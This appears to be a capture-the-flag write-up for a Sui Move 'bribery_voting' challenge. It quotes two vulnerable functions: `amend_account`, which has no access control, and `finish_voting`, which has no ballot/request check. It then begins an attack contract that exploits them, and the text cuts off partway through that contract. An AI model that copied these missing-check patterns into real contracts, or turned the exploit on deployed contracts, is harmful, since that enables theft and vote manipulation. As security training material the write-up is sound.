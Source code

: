 Deep Dive:
- Inside `candiate::amend_account` function, it lacks access control check, letting anyone be able to change candidate's account
    ```move
    public fun amend_account(
        candiate: &mut Candidate,
        account: address,
    ) {
        candiate.account = account;
    }
    ```
- Inside `ballot::finish_voting` function, it doesn't check the relationship between `ballot` & `request` (i.e. whether `resuest` is created by `ballot`), so any `request` can be committed to any `ballot`
    ```move
    public fun finish_voting(ballot: &mut Ballot, request: VoteRequest) {
        let VoteRequest {
            voting_power: _,
            voted,
        } = request;
        let (candidates, votes) = voted.into_keys_values();
        candidates.zip_do!(votes, |c, v| {
            let ballot_voted = &mut ballot.voted;
            let already_voted = ballot_voted.try_get(&c);
            if (already_voted.is_some()) {
                *ballot_voted.get_mut(&c) = already_voted.destroy_some() + v;
            } else {
                ballot_voted.insert(c, v);
            }
        });
    }
    ```
Challenge Environment：
- github id: `e3b4dfe8-845e-4bda-8de1-ad0b72975cbd`
- package id: `0x62a908d1b198a026d167a030d04bec0ab8382ffea068c6ec91e4f75e0d47cabb`
- tx hash: `8EjNDuFGHJVvpHrFtuZ7ViDT8FQCniCfJwv875tXhtx5`

Step by Step Solution:
1. Writes an attack contract and deploy it, get the package id `0x0143395bf3c44b39540af68983cdfd040a37babf49479fc1f7cd0e8fec71f68c`
    ```move!
    // PackageID: 0x0143395bf3c44b39540af68983cdfd040a37babf49479fc1f7cd0e8fec71f68c
    module solve_week3::solve_week3 {
        use std::string::String;

        use bribery_voting::briber::{Briber, get_flag, required_candidate};
        use bribery_voting::ballot::{Ballot, get_ballot, finish_voting};
        use bribery_voting::candidate::{Candidate, register, amend_account, vote};

        public fun create_ballots_and_register_candidate(ctx: &mut TxContext) {
            // create three ballots
            let _ = get_ballot(ctx);
            let _ = get_ballot(ctx);
            let _ = get_ballot(ctx);
